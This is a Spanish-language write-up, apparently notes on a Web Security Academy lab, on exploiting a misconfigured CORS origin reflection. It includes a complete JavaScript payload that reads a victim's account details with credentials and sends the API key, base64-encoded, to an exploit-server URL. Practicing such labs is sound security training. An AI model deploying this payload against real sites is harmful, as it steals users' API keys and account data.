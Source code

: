 Ya con la comprobación inicial realizada, nos centramos ahora en desplegar el exploit en el servidor de ataque. El objetivo es automatizar el robo de la clave de API mediante una petición ‘**XMLHttpRequest**‘ con credenciales activadas (**withCredentials**). Si el origen malicioso es reflejado en la respuesta como válido, y se permite el acceso a la respuesta gracias al encabezado ‘**Access-Control-Allow-Origin**‘, el navegador de la víctima nos dejará leer los datos sensibles y redirigirlos al log del exploit server.

Este enfoque demuestra cómo una validación incorrecta del origen puede dejar expuestos endpoints sensibles incluso cuando se ha intentado limitar el acceso con mecanismos CORS mal implementados.

Solucion
si nosotro agregamos origin y una direccion X si le damos a send vemos que nos esta redirigiendo a la pagina web que nosotros pusimos
![Pasted_image_20250728202600.png](Imagenes/Pasted_image_20250728202600.png)
y esto se presenta como un riesgo ya que esto se puede utilizar para cambiar informacion de modo que si el usuario visita account Details que en realidad es nuestra pagina web nos mande la informacion de apikey
entonces para ello vamos a realizar un script el cual nos de informacion sobre el usuario que queremos obtener su apikey
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0aa000a0039d1754808d398f01cf00a1.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a65006f036117a580193a9e00d300ad.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>

Entonces en nuesto exploit server ejecutamos este codigo y nos vamos a los logs
![Pasted_image_20250728204549.png](Imagenes/Pasted_image_20250728204549.png)
obtuvimos la apikey como lo visualizamos
![Pasted_image_20250728204710.png](Imagenes/Pasted_image_20250728204710.png)
